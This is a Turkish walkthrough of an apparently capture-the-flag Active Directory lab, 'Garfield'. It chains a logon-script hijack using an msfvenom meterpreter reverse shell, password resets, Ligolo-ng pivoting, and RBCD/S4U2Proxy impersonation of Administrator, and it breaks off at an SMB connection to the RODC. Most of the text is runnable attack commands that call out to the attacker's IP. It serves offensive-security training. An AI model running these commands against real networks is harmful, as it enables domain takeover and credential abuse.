HTB GARFIELD | FULL ATTACK CHAIN WALKTHROUGH 

ZORLUK: HIGH | OS: WINDOWS | KATEGORI: ACTİVE DİRECTORY

GENEL BAKIŞ;
*Garfield RODC(Read-Only Domain Controller) güvenlik modelini nasıl kötüye kullanılabileceğini gösteren çok katmanlı bir Active Directory saldırı zinciri barındırıyor.
*logon script hijack --> ACL zinciri üzerinden yatay hareket --> RODC grup üyeliği 
kötüye kullanımı --> Machine Account Quota istismarı + RBCD saldırısı --> RODC 
krbtgt dump --> Golden Ticket + KeyList Attack ile Administrator NT hash sızdırma.

MAKCHINE INFO: j.arbuckle / Th1sD4mnC4t!@1978

SALDIRI YOLU;
* LDAP/SMB Enumerasyonu (RODC'ye özel krbtgt_8245 hesabı)
* ACL kötüye kullanım (scriptPath yazma izni) --> Logon Script Hijack
* Parola Sıfırlama Hakkı --> l.wilson --> l.wilson_adm
* RODC Administrators grup üyeliği --> Machine Account Quota istismarı --> RBCD --> S4U2Proxy
* Pivoting (Ligolo-ng) --> RODC01 (192.168.100.0/24)
* RODC krbtgt Dump (mimikatz)
* RODC Golden Ticket (Rubeus) --> KeyList Attack (asktgs /keyList)
* Pass-the-Hash --> root

Recon (keşif)
1- Host ayakta mı ? 

ping -c 4 10.129.244.207

ping komutu ile hedefin ayakta olup olmadığını doğruluyoruz

2- Nmap Port/Service/Os/Script taraması

nmap -A -Pn 10.129.244.207



sonuçlar klasik bir Active Directory profilini gösteriyor:
53 -> DNS 
88 -> kerberos
135/139/445 -> RPC/NetBIOS/SMB
389/3268 -> LDAP --> Domain: garfield.htb
464 -> kpasswd5 --> kerberos password change
593 -> ncacn_http --> RPC over HTTP
2179 -> vmrdp 
3389 -> ms-wbt-server --> RDP, sertifikadan DC01.garfield.htb doğrulandı
5985 -> WinRM

3- /etc/hosts kaydı

echo "10.129.244.207 garfield.htb DC01.garfield.htb" | sudo tee -a /etc/hosts

4- LDAP Kullanıcı Enumerasyonu 

nxc ldap garfield.htb -u 'j.arbuckle' -p 'Th1sD4mnC4t!@1978' --users


Elimizde zaten geçerli bir kimlik bilgisi var: j.arbuckle : Th1sD4mnC4t!@1978 . Bununla nxc(NetExec) üzerinden LDAP'a bağlanıp domain kullanıcıları listeliyoruz. 
7 tane domain kullanıcısı listelendi. Dikkat çeken nokta krbtgt_8245 kullanıcısı çünkü normal bir domain'de tek bir krbtgt bulunması gerekir. İkinci bir krbtgt hesabı ortamda bir RODC olduğunun bir işaretidir

5- SMB Enumerasyonu ve ACL Keşfi 

nxc smb garfield.htb -u 'j.arbuckle' -p 'Th1sD4mnC4t!@1978' -M spider_plus

Elimizdeki j.arbuckle kimlik bilgisiyle SMB paylaşımlarını tarıyoruz hangi share'lere erişebildiğimizi ve içeride neler olduğunu görmek için
5 share tespit edildi, 3'ü okunabilir (IPCS, NETLOGON, SYSVOL) SYSVOL ve NETLOGON dikkat çekici çünkü bunlar logon script'lerin ve GPO dosyalarının tutulduğu paylaşımlar.

6- bloodyAD ile Writable Keşfi 

bloodyAD --host DC01.garfield.htb -u 'j.arbuckle' -p 'Th1sD4mnC4t!@1978' get writable --detail





j.arbuckle hesabının domain genelinde hangi AD nesnelerinde yazma hakkı olduğunu kontrol ediyoruz.

Foothold-Logon Script Hijack
7- msfvenom | Payload hazırlama 

tun0 üzerindeki VPN IP'im --> 10.10.17.90

msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.17.90 LPORT=443 -f psh-cmd | tail -n 1 > gar2.txt

printf '@echo off\r\n%s\r\n' "$(cat gar2.txt)" > garr2.bat


-f psh-cmd formatı doğrudan bir PowerShell komutu(base64 encoded) olarak üretir. bunu bir .bat dosyasına ekleyerek(@echo off + PowerShell) komutu, scriptPath mekanizmasının çalıştırabileceği bir dosya elde ediyoruz.

8- Bat Dosyasını SYSVOL'e Yükleme ve scriptPath Ayarlama 

smbclient //10.129.244.207/SYSVOL -U 'j.arbuckle%Th1sD4mnC4t!@1978' -c 'cd garfield.htb\scripts; put garr2.bat garr2.bat'

garr2.bat dosyası SYSVOL\garfield.htb\scripts\ altına yüklendi.

bloodyAD --host DC01.garfield.htb -u 'j.arbuckle' -p 'Th1sD4mnC4t!@1978' set object "CN=Liz Wilson,CN=Users,DC=garfield,DC=htb" scriptPath -v garr2.bat


garr2.bat dosyası SYSVOL\garfield.htb\scripts\ altına yüklendi.
l.wilson Kullanıcısının scriptPath özelliği garr2.bat olarak ayarlandı.

Foothold - Meterpreter Session ve İlk Erişim 
9- Metasploit Handler Kurulumu 

msfconsole -q 
use multi/handler 
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 10.10.17.90
set LPORT 443
run 


Tetiklenmesi için;

bloodyAD --host DC01.garfield.htb -u 'j.arbuckle' -p 'Th1sD4mnC4t!@1978' set object "CN=Liz Wilson,CN=Users,DC=garfield,DC=htb" scriptPath -v garr2.bat
 
tekrar çalıştırıyoruz.
Logon Script Hijack başarılı - l.wilson kullanıcı bağlamında kod çalıştırma elde ettik.

10- İç Ağ Keşfi(ifconfig)

meterpreter > ifconfig


Interface 1 --> 127.0.0.1 --> Loopback 
Interface 7 --> 10.129.244.207 --> Ana HTB ağı 
Interface 9 --> 192.168.100.1 --> Virtual Ethernet Adapter 

Kritik bulgu: 192.168.100.1 DC01'in bir Hyper-V host olduğunu ve 192.168.100.0/24 aralığında izole bir iç sanal ağ barındırdığını gösteriyor.

11- Shell'e Geçiş 

meterpreter > shell
 
C:\Windows\system32> powershell.exe


Meterpreter yerine PowerShell'e geçmemizin sebebi: Set-ADAccountPassword, Get-ADUser gibi Active Directory PowerShell modüllerini kullanabilmek.

12- l.wilson_adm Parolasını Sıfırlama 

$pw = ConvertTo-SecureString 'Grrard123' -AsPlainText -Force 

Set-ADAccountPassword -Identity l.wilson_adm -NewPassword $pw -Reset -Server DC01.garfield.htb


l.wilson, l.wilson üzerinde ForceChangePassword/parola sıfırlama hakkına sahip olduğunu gördük.

13- l.wilson_adm ile WinRM Erişimi ve user.txt Flag Alımı

evil-winrm -i garfield.htb -u 'l.wilson_adm' -p 'Grrard123'

*Evil-WinRM* PS C:\Users\l.wilson_adm\Documents> whoami
garfield\l.wilson_adm

type C:\Users\l.wilson_adm\Desktop\user.txt

14- Grup Üyeliği Kontrolü

whoami /groups


l.wilson_adm ile Evil-WinRM oturumu üzerinden mevcut grup üyeliklerini kontrol ediyoruz. Bu noktada dikkat çeken grup GARFIELD\Tier1 henüz RODC Administrators grubunda değiliz. 

15- İç Ağ Host Taraması (fscan)

wget https://github.com/shadow1ng/fscan/releases/download/v2.2.1/fscan_2.2.1_windows_x64.exe -O fscan.exe

evil-winrm -i garfield.htb -u 'l.wilson_adm' -p 'Grrard123'

upload /home/kali/fscan.exe fscan.exe


.\fscan.exe -h 192.168.100.0/24



[*] 192.168.100.1:445    microsoft-ds [Product:Microsoft Windows SMB2]
[-] SMBInfo 192.168.100.1:445  [Windows 10 (Build 17763)] DC01 SMBv2

[*] 192.168.100.2:445    microsoft-ds [Product:Microsoft Windows SMB2]
[-] SMBInfo 192.168.100.2:445  [Windows 10 (Build 17763)] RODC01 SMBv2

[+] NetInfo 192.168.100.1:135 [DC01]
[+] NetInfo 192.168.100.1:135   -> 192.168.100.1
[+] NetInfo 192.168.100.1:135   -> 10.129.244.207

[+] NetInfo 192.168.100.2:135 [RODC01]
[+] NetInfo 192.168.100.2:135   -> 192.168.100.2

Tarama sonucunda 192.168.100.1'in DC01, 192.168.100.2'nin ise RODC01 olduğu 
SMB ve NetInfo bilgileriyle doğrulandı.

17- İç ağ /etc/hosts kaydı + Host Ayakta mı ?

echo "192.168.100.2 RODC.garfield.htb" | sudo tee -a /etc/hosts


Pivoting (Ligolo-ng)
16- Ligolo-ng Proxy Kurulumu 

cd ligolo-ng 

sudo ./proxy -selfcert

ligolo-ng >> ifcreate --name ligolo

ligolo-ng >> route_add --name ligolo --route 192.168.100.0/24


RODC01 (192.168.100.2), dışarıdan doğrudan erişilemeyen izole bir iç ağda. Ligolo-ng ile saldırgan makinede bir tünel arayüzü oluşturup, bu iç ağa (192.168.100.0/24) route ekliyoruz.

17- Ligolo Agent'ı Hedefe Yükleme 

mkdir C:\Temp

cd C:\Temp

upload /home/kali/ligolo-ng/agent.exe agent.exe


Start-Process -FilePath ".\agent.exe" -ArgumentList "-connect 10.10.17.90:11601 -ignore-cert" -WindowStyle Hidden


ligolo-ng >> session

? Specify a session : 1 - GARFIELD\l.wilson_adm@DC01 - 10.129.244.207:63639 - 00155d0bdd00   not: 1'i seçiyoruz.


[Agent : GARFIELD\l.wilson_adm@DC01] » start


l.wilson_adm oturumu üzerinden ligolo-ng agent'ını DC01'e yükleyip çalıştırıyoruz. agent, saldırgan makinedeki proxy'ye bağlanıyor ve DC01 üzerinden 192.168.100.0/24 ağına tünel açıyor.

RODC Administrators Grup Üyeliği ve RBCD Saldırısı
18- l.wilson_adm'ı RODC Administrators Grubuna Ekleme 

bloodyAD --host DC01.garfield.htb -u 'l.wilson_adm' -p 'Grrard123' add groupMember "RODC Administrators" l.wilson_adm


l.wilson_adm kendini RODC Administrators grubuna ekleyebiliyor ve bu grup üzerinde AddMember hakkı var.

19- Machine Account Quota İstismarı ile Yeni Hesap Oluşturma

bloodyAD --host DC01.garfield.htb -u 'l.wilson_adm' -p 'Grrard123' add computer 'DC02' 'ardgrr123'

Domain'in varsayılan ms-DS-MachineAccountQuota ayarı herhangi bir authenticated user'ın domain'e yeni hesap ekleyebilmesine izin verir. Bu şekilde kontrolümüzde bir makine hesabı (DC02$) oluşturuyoruz.

20- RBCD (Resource-Based Constrained Delegation) Ayarlama 

bloodyAD --host DC01.garfield.htb -u 'l.wilson_adm' -p 'Grrard123' add rbcd 'RODC01$' 'DC02$'


RODC01$'in msDS-AllowedToActOnBehalfOfOtherIdentity özelliğine DC02$'i yazıyoruz. Bu, DC02$'in RODC01 üzerinde herhangi bir kullanıcıyı impersonate edebilmesini sağlıyor.

21- Zaman Senkronizasyonu

sudo ntpdate -u DC01.garfield.htb
Kerberos, saat farkına karşı hassas olduğu için saldırgan makinenin saatini DC ile senkronize ediyoruz.

22- S4U2Proxy(Service for User to Proxy) ile Administrator Bileti Alma 

python3 /usr/share/doc/python3-impacket/examples/getST.py GARFIELD.HTB/'DC02$':'ardgrr123' -spn cifs/RODC01.garfield.htb -impersonate Administrator -dc-ip 10.129.244.207


DC02$ kimlik bilgileriyle, RBCD hakkını kullanarak Administrator adına RODC01 üzerinde cifs servisi için bir TGS bileti talep ediyoruz.

23- Kerberos Ticket ile RODC01'e Bağlanma

export KRB5CCNAME=$(pwd)/Administrator@cifs_RODC01.garfield.htb@GARFIELD.HTB.ccache

python3 /usr/share/doc/python3-impacket/examples/smbclient.py -k -no-pass GARFIELD.HTB/Administrator@RODC01.garfield.htb
